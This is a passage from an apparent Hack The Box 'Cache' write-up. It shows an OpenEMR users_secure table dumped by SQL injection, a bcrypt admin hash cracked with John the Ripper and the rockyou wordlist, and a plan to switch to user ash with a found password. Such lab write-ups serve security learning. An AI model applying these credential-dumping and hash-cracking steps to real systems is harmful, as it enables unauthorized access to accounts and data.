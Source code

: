 ![Untitled](/img/htb-cache/Untitled%2014.png)

![Untitled](/img/htb-cache/Untitled%2015.png)

I dump the `users_secure`

## Getting Shell as www-data:

![Untitled](/img/htb-cache/Untitled%2016.png)

```bash
Database: openemr
Table: users_secure
[1 entry]
+------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+---------------+---------------+-------------------+-------------------+
| id   | salt                           | username      | password                                                     | last_update         | salt_history1 | salt_history2 | password_history1 | password_history2 |
+------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+---------------+---------------+-------------------+-------------------+
| 1    | $2a$05$l2sTLIG6GTBeyBf7TAKL6A$ | openemr_admin | $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B. | 2019-11-21 06:38:40 | NULL          | NULL          | NULL              | NULL              |
+------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+---------------+---------------+-------------------+-------------------+
```

Cracked the hash using John

```bash
root@w0lf:~/CTF/HTB/Boxes/Cache# john --wordlist=/usr/share/wordlists/rockyou.txt hash.john 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxxxx           (?)
1g 0:00:00:00 DONE (2020-05-19 13:41) 1.694g/s 1464p/s 1464c/s 1464C/s caitlin..felipe
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

![Untitled](/img/htb-cache/Untitled%2017.png)

## Getting User Ash:

There are 2 users `ash` and `luffy` and we already found ash password, so why don't we try su.
